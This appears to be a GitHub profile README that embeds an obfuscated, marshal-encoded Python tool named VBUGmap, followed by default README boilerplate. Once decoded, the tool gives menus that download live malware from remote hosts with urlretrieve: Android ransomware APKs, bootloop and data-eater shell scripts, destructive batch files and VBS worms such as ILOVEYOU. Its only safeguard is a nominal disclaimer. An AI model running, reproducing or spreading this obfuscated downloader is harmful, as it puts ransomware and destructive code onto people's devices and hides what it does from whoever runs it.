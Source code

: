 
import marshal
exec(marshal.loads('''c\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00@\x00\x00\x00sm\x07\x00\x00d\x00\x00Z\x00\x00d\x01\x00d\x02\x00l\x01\x00Z\x01\x00d\x01\x00d\x02\x00l\x02\x00Z\x02\x00d\x01\x00d\x02\x00l\x03\x00Z\x03\x00d\x03\x00Z\x04\x00d\x04\x00Z\x05\x00d\x05\x00Z\x06\x00d\x06\x00Z\x07\x00d\x07\x00Z\x08\x00d\x08\x00Z\t\x00d\t\x00\x84\x00\x00Z\n\x00d\n\x00\x84\x00\x00Z\x0b\x00e\x02\x00j\x0c\x00d\x0b\x00k\x02\x00r\x7f\x00e\x01\x00j\r\x00d\x0c\x00\x83\x01\x00\x01n,\x00e\x02\x00j\x0c\x00d\r\x00k\x02\x00r\x9e\x00e\x01\x00j\r\x00d\x0e\x00\x83\x01\x00\x01n\r\x00e\x01\x00j\r\x00d\x0c\x00\x83\x01\x00\x01e\n\x00\x83\x00\x00\x01Hd\x0f\x00e\x08\x00e\t\x00e\x04\x00e\x08\x00e\x04\x00f\x05\x00\x16GHd\x10\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x0e\x00e\x01\x00j\x0f\x00\x83\x00\x00d\x11\x00k\x02\x00r\x00\x01d\x12\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x0e\x00n\x00\x00d\x13\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x10\x00d\x14\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x11\x00d\x15\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x12\x00d\x16\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x13\x00d\x17\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x14\x00d\x18\x00e\x08\x00e\x04\x00f\x02\x00\x16Z\x15\x00e\x16\x00Z\x17\x00x\x00\x06e\x17\x00rh\x07e\x18\x00d\x19\x00e\x0e\x00\x17d\x1a\x00\x17\x83\x01\x00Z\x19\x00e\x19\x00j\x1a\x00\x83\x00\x00d\x1b\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xa3\x01e\x10\x00GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00d\x1c\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x8c\x03e\x12\x00GHe\x18\x00d\x1d\x00\x83\x01\x00Z\x1c\x00e\x1c\x00j\x1a\x00\x83\x00\x00d\x1e\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xf7\x01e\x03\x00j\x1d\x00d\x1f\x00d \x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d!\x00j\x1b\x00\x83\x00\x00k\x06\x00r"\x02e\x03\x00j\x1d\x00d"\x00d#\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d$\x00j\x1b\x00\x83\x00\x00k\x06\x00rM\x02e\x03\x00j\x1d\x00d%\x00d&\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d\'\x00j\x1b\x00\x83\x00\x00k\x06\x00rx\x02e\x03\x00j\x1d\x00d(\x00d)\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d*\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xa3\x02e\x03\x00j\x1d\x00d+\x00d,\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d-\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xce\x02e\x03\x00j\x1d\x00d.\x00d/\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d0\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xf9\x02e\x03\x00j\x1d\x00d1\x00d2\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d3\x00j\x1b\x00\x83\x00\x00k\x06\x00r$\x03e\x03\x00j\x1d\x00d4\x00d5\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d6\x00j\x1b\x00\x83\x00\x00k\x06\x00rO\x03e\x03\x00j\x1d\x00d7\x00d8\x00\x83\x02\x00\x01qe\x07e\x1c\x00j\x1a\x00\x83\x00\x00d9\x00j\x1b\x00\x83\x00\x00k\x06\x00rz\x03e\x03\x00j\x1d\x00d:\x00d;\x00\x83\x02\x00\x01qe\x07d<\x00e\x06\x00e\x04\x00f\x02\x00\x16GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00d=\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x9e\x04e\x13\x00GHe\x18\x00d\x1d\x00\x83\x01\x00Z\x1e\x00e\x1e\x00j\x1a\x00\x83\x00\x00d\x1e\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xe0\x03e\x03\x00j\x1d\x00d>\x00d?\x00\x83\x02\x00\x01qe\x07e\x1e\x00j\x1a\x00\x83\x00\x00d!\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x0b\x04e\x03\x00j\x1d\x00d@\x00dA\x00\x83\x02\x00\x01qe\x07e\x1e\x00j\x1a\x00\x83\x00\x00d$\x00j\x1b\x00\x83\x00\x00k\x06\x00r6\x04e\x03\x00j\x1d\x00dB\x00dC\x00\x83\x02\x00\x01qe\x07e\x1e\x00j\x1a\x00\x83\x00\x00d\'\x00j\x1b\x00\x83\x00\x00k\x06\x00ra\x04e\x03\x00j\x1d\x00dD\x00dE\x00\x83\x02\x00\x01qe\x07e\x1e\x00j\x1a\x00\x83\x00\x00d*\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x8c\x04e\x03\x00j\x1d\x00dF\x00dG\x00\x83\x02\x00\x01qe\x07d<\x00e\x06\x00e\x04\x00f\x02\x00\x16GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00dH\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xb0\x05e\x14\x00GHe\x18\x00d\x1d\x00\x83\x01\x00Z\x1f\x00e\x1f\x00j\x1a\x00\x83\x00\x00d\x1e\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xf2\x04e\x03\x00j \x00dI\x00dJ\x00\x83\x02\x00\x01qe\x07e\x1f\x00j\x1a\x00\x83\x00\x00d!\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x1d\x05e\x03\x00j\x1d\x00dK\x00dL\x00\x83\x02\x00\x01qe\x07e\x1f\x00j\x1a\x00\x83\x00\x00d$\x00j\x1b\x00\x83\x00\x00k\x06\x00rH\x05e\x03\x00j\x1d\x00dM\x00dN\x00\x83\x02\x00\x01qe\x07e\x1f\x00j\x1a\x00\x83\x00\x00d\'\x00j\x1b\x00\x83\x00\x00k\x06\x00rs\x05e\x03\x00j\x1d\x00dO\x00dP\x00\x83\x02\x00\x01qe\x07e\x1f\x00j\x1a\x00\x83\x00\x00d*\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x9e\x05e\x03\x00j\x1d\x00dQ\x00dR\x00\x83\x02\x00\x01qe\x07d<\x00e\x06\x00e\x04\x00f\x02\x00\x16GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00dS\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x97\x06e\x15\x00GHe\x18\x00d\x1d\x00\x83\x01\x00Z!\x00e!\x00j\x1a\x00\x83\x00\x00d\x1e\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x04\x06e\x03\x00j\x1d\x00dT\x00dU\x00\x83\x02\x00\x01qe\x07e!\x00j\x1a\x00\x83\x00\x00d!\x00j\x1b\x00\x83\x00\x00k\x06\x00r/\x06e\x03\x00j\x1d\x00dV\x00dW\x00\x83\x02\x00\x01qe\x07e!\x00j\x1a\x00\x83\x00\x00d$\x00j\x1b\x00\x83\x00\x00k\x06\x00rZ\x06e\x03\x00j\x1d\x00dX\x00dY\x00\x83\x02\x00\x01qe\x07e!\x00j\x1a\x00\x83\x00\x00d\'\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x85\x06e\x03\x00j\x1d\x00dZ\x00d[\x00\x83\x02\x00\x01qe\x07d<\x00e\x06\x00e\x04\x00f\x02\x00\x16GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00d\\\x00j\x1b\x00\x83\x00\x00k\x06\x00r\xb7\x06e\x11\x00GHqi\x01e\x19\x00j\x1a\x00\x83\x00\x00d\x0c\x00j\x1b\x00\x83\x00\x00k\x06\x00r\x1d\x07e\x02\x00j\x0c\x00d\x0b\x00k\x02\x00r\xee\x06e\x01\x00j\r\x00d\x0c\x00\x83\x01\x00\x01qe\x07e\x02\x00j\x0c\x00d\r\x00k\x02\x00r\r\x07e\x01\x00j\r\x00d\x0e\x00\x83\x01\x00\x01qe\x07e\x01\x00j\r\x00d\x0c\x00\x83\x01\x00\x01qi\x01e\x19\x00j\x1a\x00\x83\x00\x00d]\x00j\x1b\x00\x83\x00\x00k\x06\x00r?\x07e\x0b\x00\x83\x00\x00\x01qi\x01e\x19\x00j\x1a\x00\x83\x00\x00d^\x00j\x1b\x00\x83\x00\x00k\x06\x00ri\x01e\x04\x00GHe"\x00Z\x17\x00qi\x01qi\x01Wd\x02\x00S(_\x00\x00\x00s\xad\x00\x00\x00\nVBUGmap v1.0\nAuthor: DedSecTL/DTL\nDate: 12-12-2017 (04:26)\nGithub: https://github.com/Gameye98\nBlog: http://droidsec9798-com.mwapblog.com\nBlackHole Security (BlackHoleSec)\ni\xff\xff\xff\xffNs\x04\x00\x00\x00\x1b[0ms\x07\x00\x00\x00\x1b[1;33ms\x07\x00\x00\x00\x1b[1;31ms\x07\x00\x00\x00\x1b[1;32ms\x07\x00\x00\x00\x1b[1;37ms\t\x00\x00\x00\x1b[1;9;31mc\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00C\x00\x00\x00sX\x00\x00\x00d\x01\x00t\x00\x00t\x01\x00f\x02\x00\x16GHd\x02\x00t\x00\x00t\x02\x00t\x00\x00t\x02\x00t\x01\x00f\x05\x00\x16GHd\x03\x00t\x00\x00t\x01\x00f\x02\x00\x16GHd\x04\x00t\x00\x00t\x01\x00f\x02\x00\x16GHd\x05\x00t\x00\x00t\x01\x00f\x02\x00\x16GHd\x00\x00S(\x06\x00\x00\x00Ns)\x00\x00\x00%s      _                              %ss9\x00\x00\x00%s _ _ | |_  _ _  ___  _____  ___  ___  %s{%s1.0#dev%s}%ss)\x00\x00\x00%s| | || . || | || . ||     || .\'|| . |%ss)\x00\x00\x00%s \\_/ |___||___||_  ||_|_|_||__,||  _|%ss)\x00\x00\x00%s               |___|            |_|  %s(\x03\x00\x00\x00t\x01\x00\x00\x00Yt\x01\x00\x00\x00Nt\x01\x00\x00\x00W(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x03\x00\x00\x00<s>t\n\x00\x00\x00__banner__\x16\x00\x00\x00s\n\x00\x00\x00\x00\x01\x0f\x01\x18\x01\x0f\x01\x0f\x01c\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s/\x00\x00\x00t\x00\x00j\x01\x00}\x00\x00t\x02\x00j\x03\x00|\x00\x00|\x00\x00t\x00\x00j\x04\x00\x8c\x02\x00\x01t\x02\x00j\x05\x00\x83\x00\x00}\x01\x00d\x00\x00S(\x01\x00\x00\x00N(\x06\x00\x00\x00t\x03\x00\x00\x00syst\n\x00\x00\x00executablet\x02\x00\x00\x00ost\x05\x00\x00\x00execlt\x04\x00\x00\x00argvt\x06\x00\x00\x00getcwd(\x02\x00\x00\x00t\x06\x00\x00\x00pythont\x06\x00\x00\x00curdir(\x00\x00\x00\x00(\x00\x00\x00\x00s\x03\x00\x00\x00<s>t\x0f\x00\x00\x00restart_program\x1d\x00\x00\x00s\x06\x00\x00\x00\x00\x01\t\x01\x16\x01t\x06\x00\x00\x00linux2t\x05\x00\x00\x00cleart\x05\x00\x00\x00win32t\x03\x00\x00\x00clssb\x00\x00\x00%splease do %snot%s%s use in military or secret service organizations, or for illegal purposes.\n%ss\x06\x00\x00\x00%s*>%si\x00\x00\x00\x00s\x06\x00\x00\x00%s#>%ss}\x01\x00\x00%s\nVBugmap Menu\n\thelp     - get help menu.\n\tclear    - clearscreen.\n\tvbug_apk - get list of downloadable apk virus files.\n\tvbug_sh  - get list of downloadable sh virus files.\n\tvbug_bat - get list of downloadable bat virus files.\n\tvbug_vbs - get list of downloadable vbs virus files.\n\tcredits  - you should also thank them.\n\trestart  - restart program.\n\texit     - close program.\n%ss\xa2\x01\x00\x00%s\nCredits\n\tThanks to Syahrul Nizam for helping me collect the virus\n\tThanks to Mila for a stack of very cool viruses (Mila@contagiodump.com)\n\tThanks to M Julius as you also help search for virus file\n\tThanks for those who all have been waiting for the release of this tool for a long time\n\tThanks for Wahyu Hidayat for giving permission to use his artificial virus\n\tAnd thanks to you too for having run our program\n%ss\xda\x00\x00\x00%s\nApp for Android\n\t(01) Wanna Decryptor 1\n\t(02) Ransomware Legacy\n\t(03) Wanna Decryptor 2\n\t(04) GoogleKernel\n\t(05) AndroRW\n\t(06) Elite\n\t(07) AndroGrave\n\t(08) Ransomware Rans\n\t(09) Google Play Services\n\t(10) rfrfrfr\n%ssc\x00\x00\x00%s\nShell for Android\n\t(01) Ransomware\n\t(02) Bootloop\n\t(03) Data-Eater\n\t(04) freeze\n\t(05) zipbomb\n%ssM\x00\x00\x00%s\nBatch for PC\n\t(01) R.I.P\n\t(02) KOCE\n\t(03) Reg-Eater\n\t(04) 404\n\t(05) CMD\n%ssN\x00\x00\x00%s\nVisual Basic for PC\n\t(01) ILOVEYOU\n\t(02) alay\n\t(03) Capslock\n\t(04) Jelek\n%ss\x0f\x00\x00\x00\x1b[1mvbugmap\x1b[0mt\x01\x00\x00\x00 t\x04\x00\x00\x00helpt\x08\x00\x00\x00vbug_apks\x11\x00\x00\x00vbugmap*> select s\x04\x00\x00\x0001 1s-\x00\x00\x00http://override.waper.co/files/wannacrypt.apks\x12\x00\x00\x00WannaDecryptor.apks\x04\x00\x00\x0002 2s)\x00\x00\x00http://override.waper.co/files/legacy.apks\n\x00\x00\x00Legacy.apks\x04\x00\x00\x0003 3s/\x00\x00\x00http://override.waper.co/files/wannacryptx2.apks\x14\x00\x00\x00WannaDecryptorx2.apks\x04\x00\x00\x0004 4s-\x00\x00\x00http://override.waper.co/files/googlekern.apks\x10\x00\x00\x00GoogleKernel.apks\x04\x00\x00\x0005 5s*\x00\x00\x00http://override.waper.co/files/androrw.apks\x0b\x00\x00\x00AndroRW.apks\x04\x00\x00\x0006 6s(\x00\x00\x00http://override.waper.co/files/31337.apks\t\x00\x00\x00Elite.apks\x04\x00\x00\x0007 7s-\x00\x00\x00http://override.waper.co/files/andrograve.apks\x0e\x00\x00\x00AndroGrave.apks\x04\x00\x00\x0008 8s,\x00\x00\x00http://override.waper.co/files/ranselbag.apks\x08\x00\x00\x00Rans.apks\x04\x00\x00\x0009 9s\'\x00\x00\x00http://override.waper.co/files/dupe.zips\x07\x00\x00\x00GPS.apkt\x02\x00\x00\x0010sA\x00\x00\x00http://override.waper.co/files/b55db82cd4b45d3d6c0b9c86896431.apks\x0b\x00\x00\x00rfrfrfr.apks\x1d\x00\x00\x00%s[!] ERROR: Wrong Input...%st\x07\x00\x00\x00vbug_shs>\x00\x00\x00https://github.com/JA1D3V/AndroidRansomware/archive/master.zips\x15\x00\x00\x00AndroidRansomware.zips+\x00\x00\x00http://override.waper.co/files/bootloop.apks\x0b\x00\x00\x00bootloop.shs+\x00\x00\x00http://override.waper.co/files/dateater.apks\r\x00\x00\x00data-eater.shs)\x00\x00\x00http://override.waper.co/files/freeze.apks\t\x00\x00\x00freeze.shs,\x00\x00\x00http://override.waper.co/files/zipbombsh.apks\n\x00\x00\x00zipbomb.sht\x08\x00\x00\x00vbug_bats&\x00\x00\x00http://override.waper.co/files/rip.apks\x07\x00\x00\x00RIP.bats\'\x00\x00\x00http://override.waper.co/files/koce.apks\x08\x00\x00\x00koce.bats+\x00\x00\x00http://override.waper.co/files/regeater.apks\r\x00\x00\x00reg-eater.bats&\x00\x00\x00http://override.waper.co/files/404.apks\x07\x00\x00\x00404.bats&\x00\x00\x00http://override.waper.co/files/cmd.apks\x07\x00\x00\x00CMD.batt\x08\x00\x00\x00vbug_vbss+\x00\x00\x00http://override.waper.co/files/iloveyou.apks\x1b\x00\x00\x00LOVE-LETTER-FOR-YOU.TXT.vbss\'\x00\x00\x00http://override.waper.co/files/alay.apks\x08\x00\x00\x00alay.vbss+\x00\x00\x00http://override.waper.co/files/capslock.apks\x0c\x00\x00\x00CapsLock.vbss(\x00\x00\x00http://override.waper.co/files/jelek.apks\t\x00\x00\x00jelek.vbst\x07\x00\x00\x00creditst\x07\x00\x00\x00restartt\x04\x00\x00\x00exit(#\x00\x00\x00t\x07\x00\x00\x00__doc__R\x06\x00\x00\x00R\x04\x00\x00\x00t\x06\x00\x00\x00urllibR\x01\x00\x00\x00R\x00\x00\x00\x00t\x01\x00\x00\x00Rt\x01\x00\x00\x00GR\x02\x00\x00\x00t\x01\x00\x00\x00DR\x03\x00\x00\x00R\x0c\x00\x00\x00t\x08\x00\x00\x00platformt\x06\x00\x00\x00systemt\x07\x00\x00\x00commandt\x07\x00\x00\x00geteuidR\x12\x00\x00\x00R\x18\x00\x00\x00t\x08\x00\x00\x00list_apkt\x07\x00\x00\x00list_sht\x08\x00\x00\x00list_batt\x08\x00\x00\x00list_vbst\x04\x00\x00\x00Truet\x03\x00\x00\x00optt\t\x00\x00\x00raw_inputt\x07\x00\x00\x00vbugmapt\x05\x00\x00\x00stript\x05\x00\x00\x00splitt\x07\x00\x00\x00apkfilet\x0b\x00\x00\x00urlretrievet\x06\x00\x00\x00shfilet\x07\x00\x00\x00batfilet\x08\x00\x00\x00retrievet\x07\x00\x00\x00vbsfilet\x05\x00\x00\x00False(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x03\x00\x00\x00<s>t\x08\x00\x00\x00<module>\n\x00\x00\x00s\xd8\x00\x00\x00\x06\x01$\x03\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x03\t\x07\t\x05\x0f\x01\x10\x01\x0f\x01\x10\x02\r\x01\x07\x01\x01\x01\x18\x02\x10\x01\x12\x01\x13\r\x10\t\x10\r\x10\x08\x10\x08\x10\x07\x10\x02\x06\x01\t\x01\x14\x01\x18\x01\x08\x01\x18\x01\x05\x01\x0c\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x02\x12\x01\x18\x01\x05\x01\x0c\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x02\x12\x01\x18\x01\x05\x01\x0c\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x02\x12\x01\x18\x01\x05\x01\x0c\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x01\x18\x01\x13\x02\x12\x01\x18\x01\x08\x01\x18\x01\x0f\x01\x10\x01\x0f\x01\x10\x02\x10\x01\x18\x01\n\x01\x18\x01\x05\x01'''))
Hadi031201/Hadi031201 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
